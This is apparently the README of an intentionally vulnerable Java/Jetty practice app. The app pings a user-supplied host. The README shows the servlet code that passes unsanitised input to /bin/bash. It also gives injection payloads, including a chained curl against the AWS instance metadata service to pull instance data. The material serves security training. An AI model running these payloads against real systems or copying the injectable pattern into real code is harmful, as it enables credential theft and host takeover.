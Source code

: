 # Vulnerable Java Webapp

A simple java based webapp which contains a code injection vulnerability. 
This is a vulnerable application for use in security testing and practice ONLY. Do not deploy anywhere in production!
 

## Table of Contents

- [Features](#features)
- [Installation](#installation)
- [Usage](#usage)
- [Exploitation](#license)
- [Vulnerability](#vulnerability)

## Features

I needed a simple app for security testing in AWS, in Java!
The premise is a simple "is it up" type app, which executes a ping in the background.

- Simple standalone application
- Uses jetty for simple setup
- Includes command injection vulnerability
- Can be leverged to SSRF in an AWS environment, for example to gather data from the AWS metadata service
- appspec and buildspec installedif you'd like to deploy using a code pipeline in AWS
![Screenshot](screenshot.png)
![Screenshot2](screenshot2.png)


## Installation

Clone the repo and ensure you have maven installed.
If deploying in AWS I recommend deploying to an Amazon Linux instance (this is where I tested it), but Ubuntu should work too.


## Usage

Either use the app as standalone with `mvn jetty:run` or deploy as part of an AWS code pipeline.

Note that AWS requires some specific syntax to invoke long running commands as part of a deployment, hence the
`mvn jetty:run> /dev/null 2> /dev/null < /dev/null &` in start.sh


## Exploitation

A couple of ways to exploit the app:

**Code execution:**

```google.com && whoami```


**SSRF exploit:**

```google.com && TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` && curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/ > output && cat output```



## Vulnerabilty 
The vulnerable code is within CommandExecutorServlet.java, where we accept unsantized user input:

```
if (command != null && !command.isEmpty()) {
  // Modify the command to include "ping -c 4" and the user-provided command
  String fullCommand = "ping -c 4 " + command;

  // Execute the command (handle security and sanitization here)
  String result = executeCommand(fullCommand);
```

And then pass it to bash....

```Process process = new ProcessBuilder("/bin/bash", "-c", command).start();```


